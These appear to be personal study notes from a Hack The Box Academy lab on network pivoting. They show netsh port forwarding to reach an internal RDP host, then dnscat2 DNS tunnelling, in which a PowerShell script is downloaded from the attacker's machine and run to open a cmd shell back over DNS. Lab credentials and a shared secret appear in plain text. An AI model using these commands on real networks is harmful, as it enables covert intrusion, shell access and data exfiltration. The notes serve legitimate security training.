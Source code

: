 The scenario in this one is that we have a comprimised Windows box dual-homed on our network and another network, which we can RDP to. We know there is another Windows box on the comprimised box's second network that we also have RDP credentials for. We set up a port forward with Netsh.exe to be able to get a RDP session on the box deeper inside the network  

RDP to the first box:  
`xfreerdp /v:10.129.162.120 /u:htb-student /p:HTB_@cademy_stdnt!`  
Run cmd.exe as administrator  
Run a ping sweep to find the ip address of the deeper target box:  
```Windows
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
We find `172.16.5.19` responds to our ping  
Use netsh.exe to forward all data received on port 8080 to 172.16.5.19:3389  
`netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.162.120 connectport=3389 connectaddress=172.16.5.19`  
Verify the forward got added with:  
`netsh.exe interface portproxy show v4tov4`  
Start a second RDP session from our attack host with:  
`xfreerdp /v:10.129.162.120:8080 /u:victor /p:pass@123`  

<br />

## DNS Tunneling with Dnscat2  

**Dnscat2** is a stealth tool that uses the DNS protocol to send data between two hosts. It uses an encrypted channel and sends data inside TXT records within the DNS protocol. Dnscat2 can be an extreemly stealthy approach to exfiltrate data while evading firewall detections.  

This exercise is just a basic example of communicating between a comprimised Windows host and our attack machine with dnscat2  

`git clone https://github.com/iagox86/dnscat2.git`  
`cd dnscat2/server`  
`sudo gem install bundler`  
`sudo bundle install`  
Start the dnscat2 server:  
`sudo ruby dnscat2.rb --dns host=<tun0 ip>,port=53,domain=inlanefreight.local --no-cache`  
This will spit out a secret key, in our case this was: a78af83054f9f987152538d7587ba336  

Now we need to get the powershell dnscat2 cmdlet to the target:  
`git clone https://github.com/lukebaggett/dnscat2-powershell.git`  
`cd dnscat2-powershell`  
`python3 -m http.server`  
From the target host in powershell:  
```ps
Invoke-WebRequest -Uri "http://10.10.14.47:8000/dnscat2.ps1" -OutFile "C:\Users\htb-student\dnscat2.ps1"  
```

Now we import an run dnscat2 on the target:  
```ps
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.14.47 -Domain inlanefreight.local -PreSharedSecret a78af83054f9f987152538d7587ba336 -Exec cmd
```
And we should get a connection back on our dnscat2 listener  
Running `?` in the listener console shows us all the commands available to us  
Running `window -i 1` essentially gets us a cmd shell  
Note: everything over dnscat is really slow for obvious reasons, so you have to wait a few seconds for any shell command to give you back a response  
